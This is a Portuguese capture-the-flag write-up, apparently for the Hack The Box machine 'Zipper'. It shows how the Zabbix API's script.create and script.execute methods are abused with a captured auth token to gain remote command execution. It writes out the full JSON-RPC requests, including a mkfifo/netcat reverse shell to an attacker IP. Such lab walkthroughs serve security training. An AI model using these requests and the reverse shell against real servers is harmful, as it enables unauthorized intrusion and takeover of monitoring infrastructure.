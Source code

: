 # Explorando Zabbix - 1º Execução de script pela API

> https://www.zabbix.com/documentation/3.0/manual/api/reference/script/get

A referência está aqui

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp7.png)

Então testamos e vemos que está igual ao site de referência `script.get`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp8.png)

Para que funcione corretamente devemos passar algums parâmetros, e colocar ao invés do `script.get` tem que ser `script.create` pois vamos criar um comando para ser executado

"command": "ping -c1 10.10.16.126" - o comando a ser executado

"name": "teste" - qualquer coisa

"execute_on": 0 - aqui quer dizer onde vai ser executado o script, se não colocarmos nada, será 1, ou seja, no zabbix server, não quero que seja ali, pois vai cair em um container (aqui é importante) deve ser colocado pra cair no cliente, que não é o container

Então setamos as opções

`{"jsonrpc":"2.0", "method":"script.create", "id":1, "auth":"44972cf4b17a4ebffabb9b31faa378f6", "params":{"command": "ping -c1 10.10.16.126", "name": "teste", "execute_on": 0}}`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp9.png)

Bom, a princípio for criado, podemos verificar se realmente foi criado

`{"jsonrpc": "2.0","method": "script.get","params": {"output": "extend"},"auth": "44972cf4b17a4ebffabb9b31faa378f6","id": 1}`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp10.png)

Agora com o `script.execute` podemos executar o comando criado

`{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"44972cf4b17a4ebffabb9b31faa378f6", "params":{"hostid": 10106, "scriptid": 5}}`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp11.png)

Temos RCE!

Agora criamos outro script com o reverse shell pra nossa máquina

`{"jsonrpc":"2.0", "method":"script.create", "id":1, "auth":"44972cf4b17a4ebffabb9b31faa378f6", "params":{"command": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.126 443 >/tmp/f", "name": "shell", "execute_on": 0}}`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp12.png)

Executamos ele e ganhamos a shell

`{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"44972cf4b17a4ebffabb9b31faa378f6", "params":{"hostid": 10106, "scriptid": 6}}`
